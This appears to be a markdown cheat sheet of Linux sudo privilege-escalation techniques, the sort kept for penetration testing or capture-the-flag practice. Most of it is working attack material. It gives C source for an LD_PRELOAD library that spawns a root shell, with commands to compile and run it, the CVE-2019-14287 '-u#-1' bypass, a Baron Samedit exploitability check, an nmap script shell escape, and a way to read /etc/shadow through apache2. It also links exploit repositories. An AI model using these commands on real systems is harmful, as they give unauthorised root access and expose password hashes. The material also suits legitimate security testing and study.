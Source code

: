 
## Sudo exploits 
[SUDO_KILLER enum script](https://github.com/TH3xACE/SUDO_KILLER)  

sudo -l, cat /etc/sudoers, check gtfobins  
sudo -V    
## Sudo LD_PRELOAD   
sudo -l, see env_keep+=LD_PRELOAD. apache2

    #include <stdio.h> 
    #include <sys/types.h>
    #include <stdlib.h>
    void _init(){
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
    } 
    
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c 

sudo LD_PRELOAD=/tmp/preload.so [sudo binary] 

## CVE-2019-14287 
Sudo versions < 1.8.28. Sees -1 and reads as 0 (UID of root) 

sudo -l, see (ALL,!root)  

    sudo -u#-1 [binary escape]  
    
## CVE-2019-16634 Buffer Overflow 
versions of sudo earlier than 1.8.26  
sudo su root, type password, see ******: pwfeedback enabled in /etc/sudoers. Buffer overflow attack against password feedback.   

[exploit](https://github.com/saleemrashid/sudo-cve-2019-18634)  

## CVE-2021-3156 - Baron Samedit Heap Buffer Overflow 
[Qualys blog post](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)  
[poc 2](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156)   
[exploit](https://github.com/blasty/CVE-2021-3156)  

any unpatched version of the sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1

    sudoedit -s '\' $(python3 -c 'print("A"*1000)')                  #check to see if machine is exploitable 

## Misc sudo binaries  
    echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse  
    sudo apache2 -f /etc/shadow
